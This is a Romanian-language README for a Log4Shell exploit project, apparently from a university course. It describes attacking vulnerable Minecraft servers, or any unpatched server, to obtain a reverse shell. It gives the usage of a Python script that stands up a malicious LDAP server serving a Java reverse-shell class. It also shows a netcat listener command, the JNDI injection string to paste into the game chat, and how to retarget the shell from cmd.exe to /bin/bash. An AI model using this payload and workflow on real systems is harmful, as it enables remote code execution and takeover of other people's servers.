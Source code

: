 # Log4shell

## Descriere

Acest proiect exploateaza vulnerabilitatea Log4shell. Este destinat folosirii lui pentru a ataca un server vulnerabil de Minecraft, joc video foarte popular. Insa poate fi folosit pentru atacul oricarui server neprotejat de acest atac.

Proiectul este capabil sa initieze o conexiune de tip reverse shell.

## Dependinte

### Sistemul atacatorului

Proiectul este construit sa functioneze pe un sistem Kali Linux. Acesta are deja instalate urmatoarele programe necesare: Python3, Netcat, Git.

Pentru a instala Kali accesati [pagina oficiala](https://www.kali.org/docs/installation/hard-disk-install/) a softwareului.

In reproducerea atacului am folosit [Virtualbox](https://www.virtualbox.org/wiki/Downloads) pentru a virtualiza masina de Kali Linux. [Tutorial](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/) 

In ambele scenarii de instalare a sistemului Kali trebuie asigurata conexiunea la retea cu masina dorita sa fie atacata.

### Sistemul atacatat

In fisiere se pot regasii pachetele Java vulnerabile pentru Windows si Linux(Debian). In functie de sistemul ales se descarca aplicatia respectiva (Fisierul .tar.gz pentru Debian, Fisiserul .exe pentru Windows).

Pentru versiunea Minecraft vulnerabila se recomanda descarcarea de pe [acest link](https://mcversions.net/download/1.8.8). Acest fisier .jar va fi executat pe masina vulnerabila dorita. [How to](https://help.minecraft.net/hc/en-us/articles/360058525452-How-to-Setup-a-Minecraft-Java-Edition-Server)

## Executarea exploitului

* Dupa ce se cloneza acest repository, se intra in folderul lui.

* Urmatoarea caseta explica cum trebuie executat scripul de Python:
```
usage: application.py [-h] [--ip IP] [--port PORT]
                      [--nume_clasa NUME_CLASA]

Un script care primește IP-ul, portul și numele clasei java. Usage: python3
application.py --ip <IP> --port <Port> --nume_clasa <Nume>

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Adresa IP a serveului LDAP
  --port PORT           Portul Netcat
  --nume_clasa NUME_CLASA Clasa java
```
IP - Ip-ul masinii atacate

Port - Portul unde este acultata conexiunea reverse shell (ex:9999)

Nume - Numele dorit pentru clasa java reverse shell generata

* Dupa rulare, va exista un server malitios valabil pentru a injecta clasa java ce initiaza o conexiune reverse shell.

### Observatii!

Scriptul este configurat pentru a ataca o masina Windows. Pentru atacul unei masini Linux trebuie schimbat in script programul Java. Se cauta in fisier "cmd.exe" si se inlocuieste cu "/bin/bash".

* Netcat

Pornirea unei instante separate netcat. Asculta pentru o conexiune reverse shell.
```
nc -lvnp 9999
```

Aici va fi gasita linia de comanda a sistemului atacata

## Injectare si rezultate

In consola, unde scriptul python ruleaza, se va afisa comanda necesara ce trebuie introdusa in sistemul vulnerabil. Cum ar trebuii sa arate comanda: `${{jndi:ldap://{args.ip}:1389/{args.nume_clasa}}`

Pentru serverul de Minecraft trebuie sa ne conectam cu un client. Dupa conexiunea la sever a clientului se introduce comanda anterioara.

In final ar trebui sa avem o conexiune de terminal in fereastra cu Netcat.

## Autor

Gheorghita Dan 
@Universitatea Politehnica Timisoara